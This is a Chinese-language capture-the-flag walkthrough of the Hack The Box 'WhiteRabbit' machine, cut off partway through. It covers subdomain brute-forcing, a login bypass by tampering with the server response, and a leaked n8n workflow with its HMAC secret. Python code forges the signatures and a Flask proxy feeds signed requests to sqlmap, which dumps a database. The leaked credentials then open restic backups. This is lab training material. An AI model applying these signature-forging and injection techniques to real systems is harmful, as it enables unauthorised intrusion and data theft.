# 打靶过程

## 信息收集

```bash
$ nmap -sV -Pn 10.10.11.63
```



在80端口开放了`Caddy`服务器，访问后重定向到`http://whiterabbit.htb`。



啥也没有，爆破下子域名。

```bash
$ ffuf -c -u "http://whiterabbit.htb" -H "Host: FUZZ.whiterabbit.htb" -w 桌面/fuzzDicts-master/subdomainDicts/main.txt -t 500 -fw 1
```

爆破出子域名`status.whiterabbit.htb`，访问跳转到`http://status.whiterabbit.htb/dashboard`，进行指纹识别。

```bash
$ whatweb http://status.whiterabbit.htb
```





尝试登录，拦截登录响应包，修改`false`为`true`。

```json
431[{"ok":false,"msg":"Incorrect username or password."}]
```



然后就进来了，可以找到版本为`1.23.13`。



经过了解，在`status`目录下可能存在一些状态页面，尝试爆破一下。

```bash
$ dirsearch -u http://status.whiterabbit.htb/status --exclude-sizes=2KB
```





## wikijs

如TODO所说，这里不需要身份验证。



关注一下`GoPhish`，感觉是钓鱼攻击手册，表示从`webhook`连接到`n8n`平台。



## Gophish分析

开始分析这个流程，首先是发送POST请求

```http
POST /webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d HTTP/1.1
Host: 28efa8f7df.whiterabbit.htb
x-gophish-signature: sha256=cf4651463d8bc629b9b411c58480af5a9968ba05fca83efa03a21b2cecd1c2dd
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 81

{
  "campaign_id": 1,
  "email": "test@ex.com",
  "message": "Clicked Link"
}
```

这个过程中检查`x-gophish-signature`标头，其使用`HMAC`的加密方式，用来保护请求不被污染，如果不知道秘钥则无法伪造签名。生成公式为`HMAC(request_body, secret_key)`。

之后会进行数据库操作，查询用户是否在数据库中，这里可能会导致sql注入。

这里还给出了一份已完成的json文件:

```json
{
  "name": "Gophish to Phishing Score Database",
  "nodes": [
    {
      "parameters": {
        "respondWith": "text",
        "responseBody": "Error: No signature found in request header",
        "options": {}
      },
      "id": "c77c4304-a74e-4699-9b2c-52c7a8500fb4",
      "name": "no signature",
      "type": "n8n-nodes-base.respondToWebhook",
      "typeVersion": 1.1,
      "position": [
        660,
        620
      ]
    },
    {
      "parameters": {
        "respondWith": "text",
        "responseBody": "Error: Provided signature is not valid",
        "options": {}
      },
      "id": "da08f3e5-60c4-4898-ab28-d9f92aae2fe2",
      "name": "invalid signature",
      "type": "n8n-nodes-base.respondToWebhook",
      "typeVersion": 1.1,
      "position": [
        1380,
        540
      ]
    },
    {
      "parameters": {
        "operation": "executeQuery",
        "query": "UPDATE victims\nSET phishing_score = phishing_score + 10\nWHERE email = $1;",
        "options": {
          "queryReplacement": "={{ $json.email }}"
        }
      },
      "id": "e83be7d7-0c4a-4ca8-b341-3a40739f8825",
      "name": "Update Phishing Score for Clicked Event",
      "type": "n8n-nodes-base.mySql",
      "typeVersion": 2.4,
      "position": [
        2360,
        340
      ],
      "credentials": {
        "mySql": {
          "id": "qEqs6Hx9HRmSTg5v",
          "name": "mariadb - phishing"
        }
      }
    },
    {
      "parameters": {
        "conditions": {
          "options": {
            "caseSensitive": true,
            "leftValue": "",
            "typeValidation": "strict"
          },
          "conditions": [
            {
              "id": "ad6553f3-0e01-497a-97b5-3eba88542a11",
              "leftValue": "={{ $('Webhook').item.json.body.message }}",
              "rightValue": 0,
              "operator": {
                "type": "string",
                "operation": "exists",
                "singleValue": true
              }
            },
            {
              "id": "2a041864-d4b5-4c7d-a887-68792d576a73",
              "leftValue": "={{ $('Webhook').item.json.body.message }}",
              "rightValue": "Clicked Link",
              "operator": {
                "type": "string",
                "operation": "equals",
                "name": "filter.operator.equals"
              }
            }
          ],
          "combinator": "and"
        },
        "options": {}
      },
      "id": "c4c08710-b02c-4625-bdc3-19de5653844d",
      "name": "If Clicked",
      "type": "n8n-nodes-base.if",
      "typeVersion": 2,
      "position": [
        2120,
        320
      ]
    },
    {
      "parameters": {
        "operation": "executeQuery",
        "query": "UPDATE victims\nSET phishing_score = phishing_score + 50\nWHERE email = $1;",
        "options": {
          "queryReplacement": "={{ $json.email }}"
        }
      },
      "id": "220e3d9d-07f1-425e-a139-a51308737a89",
      "name": "Update Phishing Score for Submitted Data",
      "type": "n8n-nodes-base.mySql",
      "typeVersion": 2.4,
      "position": [
        2360,
        560
      ],
      "credentials": {
        "mySql": {
          "id": "qEqs6Hx9HRmSTg5v",
          "name": "mariadb - phishing"
        }
      }
    },
    {
      "parameters": {
        "conditions": {
          "options": {
            "caseSensitive": true,
            "leftValue": "",
            "typeValidation": "strict"
          },
          "conditions": [
            {
              "id": "ad6553f3-0e01-497a-97b5-3eba88542a11",
              "leftValue": "={{ $('Webhook').item.json.body.message }}",
              "rightValue": 0,
              "operator": {
                "type": "string",
                "operation": "exists",
                "singleValue": true
              }
            },
            {
              "id": "2a041864-d4b5-4c7d-a887-68792d576a73",
              "leftValue": "={{ $('Webhook').item.json.body.message }}",
              "rightValue": "Submitted Data",
              "operator": {
                "type": "string",
                "operation": "equals",
                "name": "filter.operator.equals"
              }
            }
          ],
          "combinator": "and"
        },
        "options": {}
      },
      "id": "9f49f588-12b7-4e3a-8d1a-74898b215d60",
      "name": "If Submitted Data",
      "type": "n8n-nodes-base.if",
      "typeVersion": 2,
      "position": [
        2120,
        500
      ]
    },
    {
      "parameters": {
        "respondWith": "text",
        "responseBody": "Success: Phishing score is updated",
        "options": {}
      },
      "id": "58eecf3c-97e9-4879-aaec-cd5759cb1ef8",
      "name": "Success",
      "type": "n8n-nodes-base.respondToWebhook",
      "typeVersion": 1.1,
      "position": [
        2660,
        460
      ]
    },
    {
      "parameters": {
        "conditions": {
          "options": {
            "caseSensitive": true,
            "leftValue": "",
            "typeValidation": "strict"
          },
          "conditions": [
            {
              "id": "8e2c34bd-a337-41e1-94a4-af319a991680",
              "leftValue": "={{ $json.signature }}",
              "rightValue": "={{ $json.calculated_signature }}",
              "operator": {
                "type": "string",
                "operation": "equals",
                "name": "filter.operator.equals"
              }
            }
          ],
          "combinator": "and"
        },
        "options": {}
      },
      "id": "8b12bac8-f513-422e-a582-99f67b87b24f",
      "name": "Compare signature",
      "type": "n8n-nodes-base.if",
      "typeVersion": 2,
      "position": [
        1100,
        340
      ]
    },
    {
      "parameters": {
        "respondWith": "text",
        "responseBody": "={{ $json.message }} | {{ JSON.stringify($json.error)}}",
        "options": {}
      },
      "id": "d3f8446a-81af-4e5a-894e-e0eab0596364",
      "name": "DEBUG: REMOVE SOON",
      "type": "n8n-nodes-base.respondToWebhook",
      "typeVersion": 1.1,
      "position": [
        1620,
        20
      ]
    },
    {
      "parameters": {
        "conditions": {
          "options": {
            "caseSensitive": true,
            "leftValue": "",
            "typeValidation": "strict"
          },
          "conditions": [
            {
              "id": "593bdf17-d38a-49a2-8431-d29679082aae",
              "leftValue": "={{ $json.headers.hasField('x-gophish-signature') }}",
              "rightValue": "true",
              "operator": {
                "type": "boolean",
                "operation": "true",
                "singleValue": true
              }
            }
          ],
          "combinator": "and"
        },
        "options": {}
      },
      "id": "0abc2e19-6ccc-4114-bf27-938b98ad5819",
      "name": "Check gophish header",
      "type": "n8n-nodes-base.if",
      "typeVersion": 2,
      "position": [
        440,
        440
      ]
    },
    {
      "parameters": {
        "jsCode": "const signatureHeader = $json.headers[\"x-gophish-signature\"];\nconst signature = signatureHeader.split('=')[1];\nreturn { json: { signature: signature, body: $json.body } };"
      },
      "id": "49aff93b-5d21-490d-a2af-95611d8f83d1",
      "name": "Extract signature",
      "type": "n8n-nodes-base.code",
      "typeVersion": 2,
      "position": [
        660,
        340
      ]
    },
    {
      "parameters": {
        "action": "hmac",
        "type": "SHA256",
        "value": "={{ JSON.stringify($json.body) }}",
        "dataPropertyName": "calculated_signature",
        "secret": "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
      },
      "id": "e406828a-0d97-44b8-8798-6d066c4a4159",
      "name": "Calculate the signature",
      "type": "n8n-nodes-base.crypto",
      "typeVersion": 1,
      "position": [
        860,
        340
      ]
    },
    {
      "parameters": {
        "conditions": {
          "options": {
            "caseSensitive": true,
            "leftValue": "",
            "typeValidation": "strict"
          },
          "conditions": [
            {
              "id": "4f69b753-a1ff-4376-88a0-032ede5d9223",
              "leftValue": "={{ $json.keys() }}",
              "rightValue": "",
              "operator": {
                "type": "array",
                "operation": "empty",
                "singleValue": true
              }
            },
            {
              "id": "9605ee34-f897-48cf-93d9-756503337686",
              "leftValue": "",
              "rightValue": "",
              "operator": {
                "type": "string",
                "operation": "equals",
                "name": "filter.operator.equals"
              }
            }
          ],
          "combinator": "and"
        },
        "options": {}
      },
      "id": "72f5d0bd-9025-4e7b-8d1f-8746035a2138",
      "name": "check if user exists in database",
      "type": "n8n-nodes-base.if",
      "typeVersion": 2,
      "position": [
        1620,
        240
      ],
      "alwaysOutputData": true,
      "executeOnce": true
    },
    {
      "parameters": {
        "operation": "executeQuery",
        "query": "SELECT * FROM victims where email = \"{{ $json.body.email }}\" LIMIT 1",
        "options": {}
      },
      "id": "5929bf85-d38b-4fdd-ae76-f0a61e2cef55",
      "name": "Get current phishing score",
      "type": "n8n-nodes-base.mySql",
      "typeVersion": 2.4,
      "position": [
        1380,
        260
      ],
      "alwaysOutputData": true,
      "retryOnFail": false,
      "executeOnce": false,
      "notesInFlow": false,
      "credentials": {
        "mySql": {
          "id": "qEqs6Hx9HRmSTg5v",
          "name": "mariadb - phishing"
        }
      },
      "onError": "continueErrorOutput"
    },
    {
      "parameters": {
        "respondWith": "text",
        "responseBody": "Info: User is not in database",
        "options": {}
      },
      "id": "e9806005-9ca3-4899-9b62-8d9d56ec413f",
      "name": "user not in database",
      "type": "n8n-nodes-base.respondToWebhook",
      "typeVersion": 1.1,
      "position": [
        1960,
        140
      ]
    },
    {
      "parameters": {
        "httpMethod": "POST",
        "path": "d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d",
        "responseMode": "responseNode",
        "options": {}
      },
      "id": "e425306c-06ba-441b-9860-170433602b1a",
      "name": "Webhook",
      "type": "n8n-nodes-base.webhook",
      "typeVersion": 2,
      "position": [
        220,
        440
      ],
      "webhookId": "d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d"
    },
    {
      "parameters": {
        "errorMessage": "User not found. This should not happen"
      },
      "id": "ec2fc3c3-014f-49b7-af14-263b2d41250d",
      "name": "Stop and Error",
      "type": "n8n-nodes-base.stopAndError",
      "typeVersion": 1,
      "position": [
        2180,
        140
      ]
    },
    {
      "parameters": {
        "errorMessage": "User not found. This should not happen"
      },
      "id": "f6d17a91-3305-488e-bb2a-79d10ec00c57",
      "name": "Stop",
      "type": "n8n-nodes-base.stopAndError",
      "typeVersion": 1,
      "position": [
        1840,
        20
      ]
    }
  ],
  "pinData": {},
  "connections": {
    "If Clicked": {
      "main": [
        [
          {
            "node": "Update Phishing Score for Clicked Event",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "If Submitted Data": {
      "main": [
        [
          {
            "node": "Update Phishing Score for Submitted Data",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "Update Phishing Score for Clicked Event": {
      "main": [
        [
          {
            "node": "Success",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "Update Phishing Score for Submitted Data": {
      "main": [
        [
          {
            "node": "Success",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "Compare signature": {
      "main": [
        [
          {
            "node": "Get current phishing score",
            "type": "main",
            "index": 0
          }
        ],
        [
          {
            "node": "invalid signature",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "Check gophish header": {
      "main": [
        [
          {
            "node": "Extract signature",
            "type": "main",
            "index": 0
          }
        ],
        [
          {
            "node": "no signature",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "Extract signature": {
      "main": [
        [
          {
            "node": "Calculate the signature",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "Calculate the signature": {
      "main": [
        [
          {
            "node": "Compare signature",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "check if user exists in database": {
      "main": [
        [
          {
            "node": "user not in database",
            "type": "main",
            "index": 0
          }
        ],
        [
          {
            "node": "If Clicked",
            "type": "main",
            "index": 0
          },
          {
            "node": "If Submitted Data",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "Get current phishing score": {
      "main": [
        [
          {
            "node": "check if user exists in database",
            "type": "main",
            "index": 0
          }
        ],
        [
          {
            "node": "DEBUG: REMOVE SOON",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "Webhook": {
      "main": [
        [
          {
            "node": "Check gophish header",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "user not in database": {
      "main": [
        [
          {
            "node": "Stop and Error",
            "type": "main",
            "index": 0
          }
        ]
      ]
    },
    "DEBUG: REMOVE SOON": {
      "main": [
        [
          {
            "node": "Stop",
            "type": "main",
            "index": 0
          }
        ]
      ]
    }
  },
  "active": true,
  "settings": {
    "executionOrder": "v1"
  },
  "versionId": "803dfe3a-9d37-4e37-8a74-9281cf6aad25",
  "meta": {
    "templateCredsSetupCompleted": true,
    "instanceId": "21894d8ad64e6c729da4131f6f85c4f5b635dd24a4cd990abd2d7df2c0b9c3e5"
  },
  "id": "WDCH0NwAZIztoV3u",
  "tags": [
    {
      "createdAt": "2024-08-28T11:11:04.551Z",
      "updatedAt": "2024-08-28T11:11:04.551Z",
      "id": "EXjKCJjO0OPsnJqx",
      "name": "database"
    },
    {
      "createdAt": "2024-08-28T11:11:02.744Z",
      "updatedAt": "2024-08-28T11:11:02.744Z",
      "id": "JuPt3zEtHwmK6jur",
      "name": "gophish"
    }
  ]
}
```

分析一下，，首先是请求`Webhook`，也就是发送POST请求到`http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d`

```json
{
      "parameters": {
        "httpMethod": "POST",
        "path": "d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d",
        "responseMode": "responseNode",
        "options": {}
      },
      "id": "e425306c-06ba-441b-9860-170433602b1a",
      "name": "Webhook",
      "type": "n8n-nodes-base.webhook",
      "typeVersion": 2,
      "position": [
        220,
        440
      ],
      "webhookId": "d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d"
    },
```

然后是签名部分，也就是`HMAC_SHA256(request_body, secret)`，这里`secret`为`3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS`

```json
{
      "parameters": {
        "action": "hmac",
        "type": "SHA256",
        "value": "={{ JSON.stringify($json.body) }}",
        "dataPropertyName": "calculated_signature",
        "secret": "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
      },
      "id": "e406828a-0d97-44b8-8798-6d066c4a4159",
      "name": "Calculate the signature",
      "type": "n8n-nodes-base.crypto",
      "typeVersion": 1,
      "position": [
        860,
        340
      ]
    }
```

用户检查部分，按邮箱查询，而使用`{{ $json.body.email }}`的方式拼接sql语句，显然存在sql注入。

```json
 {
      "parameters": {
        "operation": "executeQuery",
        "query": "SELECT * FROM victims where email = \"{{ $json.body.email }}\" LIMIT 1",
        "options": {}
      }
```

尝试伪造签名

```python
import hashlib
import hmac
import json

secret = b"3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
with open("test.json", "r") as f:
    body = json.dumps(json.load(f), separators=(',', ':'))
sig = hmac.new(secret, body.encode(), hashlib.sha256).hexdigest()
print(sig)

# {
#   "campaign_id": 1,
#   "email": "test@ex.com",
#   "message": "Clicked Link"
# }
# cf4651463d8bc629b9b411c58480af5a9968ba05fca83efa03a21b2cecd1c2dd
```

发送请求

```bash
$ export sign="sha256=cf4651463d8bc629b9b411c58480af5a9968ba05fca83efa03a21b2cecd1c2dd"
$ curl -X POST http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d \
 -H "Content-Type: application/json" \
 -H "x-gophish-signature: $sign" \
 --data @test.json
Info: User is not in database
```

## flask代理sqlmap

可以发现成功伪造了签名，到达了用户检查部分。那么现在只需要尝试进行sql注入即可。可以使用flask代理

```python
import hashlib
import hmac
import json
from urllib import request

from flask import Flask, request, jsonify
import requests

app = Flask(__name__)
secret = "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
url = "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d"

def hmac_body(body: dict) -> str:
    body_str = json.dumps(body, separators=(',', ':'))
    sign = hmac.new(secret.encode(), body_str.encode(), hashlib.sha256).hexdigest()
    return sign

@app.route('/', methods=['GET'])
def proxy():
    email = request.args.get('email')
    body = {
      "campaign_id": 1,
      "email": email,
      "message": "Clicked Link"
    }
    sign = hmac_body(body)
    headers = {
        "Content-Type": "application/json",
        "x-gophish-signature": f"sha256={sign}"
    }
    res = requests.post(url, headers=headers, json=body)
    res.raise_for_status()
    return res.text

if __name__ == '__main__':
    app.run(port=12345, debug=False)
```

然后使用sqlmap注入，成功注入

```bash
$ sqlmap -u "http://127.0.0.1:12345/?email=1" -p email -v 3 --batch 
```



爆库名

```bash
$ sqlmap -u "http://127.0.0.1:12345/?email=1" -p email -v 3 --dbs --batch 
available databases [3]:
[*] information_schema
[*] phishing
[*] temp
```

然后就是翻数据库，在`phishing`库里只有一堆邮箱，没啥用



在`temp`库有表名为`command_log`，疑似有历史命令执行记录，爆破一下

```bash
$ sqlmap -u "http://127.0.0.1:12345/?email=1" -p email -v 3 -D temp -T command_log --dump --batch 
+----+---------------------+------------------------------------------------------------------------------+
| id | date                | command                                                                      |
+----+---------------------+------------------------------------------------------------------------------+
| 1  | 2024-08-30 10:44:01 | uname -a                                                                     |
| 2  | 2024-08-30 11:58:05 | restic init --repo rest:http://75951e6ff.whiterabbit.htb                     |
| 3  | 2024-08-30 11:58:36 | echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd                       |
| 4  | 2024-08-30 11:59:02 | rm -rf .bash_history                                                         |
| 5  | 2024-08-30 11:59:47 | #thatwasclose                                                                |
| 6  | 2024-08-30 14:40:42 | cd /home/neo/ && /opt/neo-password-generator/neo-password-generator | passwd |
+----+---------------------+------------------------------------------------------------------------------+
```

## Restic到SSH登录

`Restic`是一款备份工具，首先启动了`restic`服务，域名为`75951e6ff.whiterabbit.htb`，然后将密码`ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw`存到`.restic_passwd `，之后删除历史记录，生成新的密码存入管道`passwd`中。

这里需要与`Restic`交互，下载文件[Restic](https://github.com/restic/restic/releases/download/v0.16.4/restic_0.16.4_linux_amd64.bz2)，获取快照

```bash
$ ./restic_0.16.4_linux_amd64 -r rest:http://75951e6ff.whiterabbit.htb snapshots
enter password for repository: 
repository 5b26a938 opened (version 2, compression level auto)
created new cache in /home/kali/.cache/restic
ID        Time                 Host         Tags        Paths
------------------------------------------------------------------------
272cacd5  2025-03-06 19:18:40  whiterabbit              /dev/shm/bob/ssh
------------------------------------------------------------------------
1 snapshots
```

`/dev/shm/bob/ssh`文件中可能存在`ssh`秘钥，尝试恢复快照

```bash
$ ./restic_0.16.4_linux_amd64 -r rest:http://75951e6ff.whiterabbit.htb restore 272cacd5 --target ./backup
$ tree backup
backup
└── dev
    └── shm
        └── bob
            └── ssh
                └── bob.7z
```

显然`bob.7z`里面有好东西，尝试解压

```bash
$ 7z x backup/dev/shm/bob/ssh/bob.7z 

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=zh_CN.UTF-8 Threads:32 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 572 bytes (1 KiB)

Extracting archive: backup/dev/shm/bob/ssh/bob.7z
--
Path = backup/dev/shm/bob/ssh/bob.7z
Type = 7z
Physical Size = 572
Headers Size = 204
Method = LZMA2:12 7zAES
